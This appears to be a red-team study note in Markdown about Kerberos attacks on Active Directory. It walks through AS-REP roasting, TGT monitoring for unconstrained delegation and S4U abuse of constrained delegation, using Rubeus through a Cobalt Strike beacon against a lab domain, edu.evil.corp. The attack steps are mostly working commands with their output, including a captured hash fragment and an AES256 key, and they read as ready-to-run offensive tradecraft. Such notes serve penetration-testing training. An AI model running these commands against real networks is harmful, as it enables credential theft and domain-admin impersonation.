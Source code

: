 ## [[AS-REP Roasting]]
1. Identify users: [[ADSearch#Identify as-rep roastable user]]
2. [[AS-REP Roasting]]
``````beacon
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asreproast /user:svc_oracle /nowrap

[*] Action: AS-REP roasting

[*] Target User            : svc_oracle
[*] Target Domain          : edu.evil.corp

[*] Searching path 'LDAP://dc-2.edu.evil.corp/DC=edu,DC=evil,DC=corp' for AS-REP roastable users
[*] SamAccountName         : svc_oracle
[*] DistinguishedName      : CN=Oracle Service,CN=Users,DC=edu,DC=evil,DC=corp
[*] Using domain controller: dc-2.edu.evil.corp (10.10.17.71)
[*] Building AS-REQ (w/o preauth) for: 'edu.evil.corp\svc_oracle'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

 $krb5asrep$svc_oracle@edu.evil.corp:F3B1A1 [...snip...] D6D049
``````
3. Cracking with [[Hashcat#Cracking krb5asrep]]

## [[Unconstrained Delegation]]
Requires Admin
Monitor with [[Rubeus]] for new cached TGT's
``````beacon
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe monitor /targetuser:patrick /interval:10

[*] Action: TGT Monitoring
[*] Target user     : patrick
[*] Monitoring every 10 seconds for new TGTs

jobs

jobkill 1
``````

Write the base64 decoded string to a `.kirbi` file, create a new sacrificial logon session, pass the TGT [[Overpass-the-Hash#Manual]]

## [[Constrained Delegation]]
Require Admin
1. Gather computer aes256 hash via [[eKeys]]
2. Automatically request TGS for specific service
Where:
- `/impersonateuser` is the user we want to impersonate. `patrick` is a domain admin but you want to ensure this user has local admin access to the target (WKSTN2).
- `/msdsspn` is the service principal name that SRV2 is allowed to delegate to.
- `/user` is the principal allowed to perform the delegation.
- `/aes256` is the AES256 key of the `/user`.
- `/opsec` tells Rubeus to more closely mimic genuine S4U2Self and S4U2Proxy requests (can only be used with `aes256`).
- `/ptt` [[Pass-the-Ticket]], tells Rubeus to pass the generated tickets directly into the current logon session.
``````beacon
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe s4u /impersonateuser:patrick /msdsspn:cifs/wkstn2.edu.evil.corp /user:srv2$ /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /opsec /ptt

[*] Action: S4U
``````